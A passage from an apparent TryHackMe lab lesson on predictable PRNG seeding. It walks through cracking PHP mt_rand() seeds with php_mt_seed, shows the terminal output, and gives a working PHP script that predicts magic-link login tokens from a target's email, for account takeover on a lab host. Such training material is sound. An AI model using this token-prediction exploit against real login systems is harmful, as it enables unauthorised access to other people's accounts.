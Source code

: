 

In this task, the focus shifts to cases where a **predictable seed** is used to initialise PRNGs. If the seed is weak or predictable, an attacker can reproduce the entire sequence of random numbers, leading to severe vulnerabilities in systems that rely on these **random** values.

An example of the impact of predictable seeding is in `CAPTCHA` systems, where the random value determining the CAPTCHA challenge will be generated to detect a bot activity. If the seed used to initialise the PRNG is predictable, an attacker could predict the CAPTCHA values ahead of time, allowing them to bypass the CAPTCHA and access restricted areas of the application without solving it.

This issue also manifests in systems like lottery or game applications, where PRNGs determine the outcome of random draws. When these generators are seeded with predictable values, such as timestamps, attackers can manipulate the system by predicting the outcome, ensuring they win consistently. By exploiting the predictable PRNG seed, the attacker can reverse-engineer or replicate the same random sequence, breaking the system's fairness.

In this scenario, we will explore how using predictable seeds to generate tokens in a magic link login system can lead to account takeover. The magic link token is generated using PHP's [mt_rand()](https://www.php.net/manual/en/function.mt-rand.php) function, which is seeded with a combination of the CRC32 value of the user’s email address and a random constant. By analysing the token generation process, an attacker can reverse-engineer the seed and predict valid tokens.

To proceed with the attack, we need to decode the Base64 token and retrieve the original random number generated by the server. This number is the direct output of PHP’s `mt_rand()` function, which was seeded with a predictable value. You can use an online tool like [Base64 Decode](https://www.base64decode.org/) to quickly decode the token. Simply paste the Base64-encoded token (`MTEzNTUwODU0MQ==`) into the input field, and the decoded output will be displayed.

Once we have decoded the Base64 string, we are left with the original random number generated by mt_rand(), which, in our case, is `1135508541`. This number is crucial for the next step in the attack, as it is the output of a PRNG that was seeded using a dynamic value.  

## Exploitation

The primary tool we’ll use to exploit this vulnerability is [php_mt_seed](https://www.openwall.com/php_mt_seed/). This tool is specifically designed to crack the seed of PHP’s `mt_rand()` function based on the outputs of the random number generator. Once you provide `php_mt_seed` with a `mt_rand()` output, it calculates possible seed values that could have produced that output. You can learn detailed technical explanations and maths about the tool [here](https://www.ambionics.io/blog/php-mt-rand-prediction).

An updated version of `php_mt_seed` is already available on your AttackBox inside the `~/Rooms/InsecureRandomness` directory. If you are not using AttackBox, you can download the original version from [here](https://www.openwall.com/php_mt_seed/php_mt_seed-4.0.tar.gz). 

The next step with the tool setup is to crack the seed based on the decoded random number from the token. We know that the decoded random number from the base64 token was `1135508541`. This number is the direct output of `mt_rand()`. To find the seed, run the following command in the AttackBox, which takes a little over 5 minutes to show the result (You can skip it as well):

Terminal

           `root@attackbox:~/Rooms/InsecureRandomness# ./php_mt_seed 1135508541 Pattern: EXACT Version: 3.0.7 to 5.2.0 Found 0, trying 0xfc000000 - 0xffffffff, speed 7165.9 Mseeds/s   Version: 5.2.1+ Found 0, trying 0x30000000 - 0x31ffffff, speed 58.7 Mseeds/s  seed = 0x318ff649 = 831518281 (PHP 7.1.0+) Found 1, trying 0x38000000 - 0x39ffffff, speed 58.8 Mseeds/s  seed = 0x39dc3504 = 970732804 (PHP 7.1.0+) Found 2, trying 0x6c000000 - 0x6dffffff, speed 56.0 Mseeds/s  seed = 0x6d8817a7 = 1837635495 (PHP 7.1.0+) seed = 0x6d8817a7 = 1837635495 (PHP 7.1.0+) Found 4, trying 0xbe000000 - 0xbfffffff, speed 47.2 Mseeds/s  seed = 0xbe3249b3 = 3190966707 (PHP 7.1.0+) Found 5, trying 0xfe000000 - 0xffffffff, speed 44.9 Mseeds/s  Found 5`

`php_mt_seed` will output a list of possible seeds that could have generated the random number `1135508541`. This may take up to a few minutes, depending on the range of possible seeds. When using `php_mt_seed`, the tool generates multiple possible seeds because different seeds can produce the same initial random number. This happens due to the way `mt_rand()` is initialised. To accurately identify the correct seed, each one must be tested in the environment individually. In our case, the random number `1135508541` was generated through the seed `970732804`.

Once you have identified the correct seed, you can identify the constant value that the server used to prepare the seed. All you need to do is subtract the CRC32 value of `magic@mail.random.thm` from the identified seed. You can use this [CyberChef recipe](https://gchq.github.io/CyberChef/#recipe=CRC-32_Checksum\(\)From_Base\(16\)&ienc=65001&oeol=VT) to get the exact value.

![CRC32 checksum calculation.](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1727092016291.png)  

After getting the CRC32 value `970731467`, if we subtract it from the identified seed value `970732804`, we will get the constant value, which is `1337` in this case. 

An attacker only needs the target’s email address to log in as someone else. Once they have the email, the attacker can calculate the CRC32 of the email, add `1337` to it, and use the resulting seed with `mt_srand()`. This allows the attacker to predict the exact token generated for the target, enabling them to bypass authentication and log in as that user without knowing the password. 

In the AttackBox copy and paste the following PHP code to a file called `magic_link_login.php` and then use the command `php -S 0.0.0.0:8181` to utilise PHP's built-in web server for us to access the script. The script will generate 10 tokens based on a seed comprising a constant value and an email address. The script will accept the constant value and email as input and generate the corresponding tokens. To use the script, simply navigate to the following URL with your desired parameters `http://ATTACKBOX_IP:8181/magic_link_login.php?email={email}&constant={constant}`:  

```php
<?php
if (isset($_GET['email']) && isset($_GET['constant']) && is_numeric($_GET['constant'])) {
    $email = $_GET['email'];
    $constant = (int)$_GET['constant']; 

    if (filter_var($email, FILTER_VALIDATE_EMAIL)) {
        $seed = crc32($email) + $constant;
        mt_srand($seed);

        echo "<h3>Predicted Magic Link Tokens for $email</h3>";
        for ($i = 0; $i < 10; $i++) {
            $random_number = mt_rand();
          
            $token = base64_encode($random_number);
            echo "Predicted magic link token " . ($i + 1) . ": " . $token . "<br>";
        }
    } else {
      
        echo "<div style='color:red;'>Invalid email format. Please provide a valid email.</div>";
    }
} else {
    echo "<div style='color:red;'>Please provide valid GET parameters: 'email' (valid email address) and 'constant' (numeric value).</div>";
}
?>
```

Now that you have the predicted token, you can log in as the target user. Simply visit the magic link URL [http://random.thm:8090/case/magic_link_login.php?token={predicted_token}](http://random.thm:8090/case/magic_link_login.php?token={predicted_token})  with the predicted token to log in without knowing the password.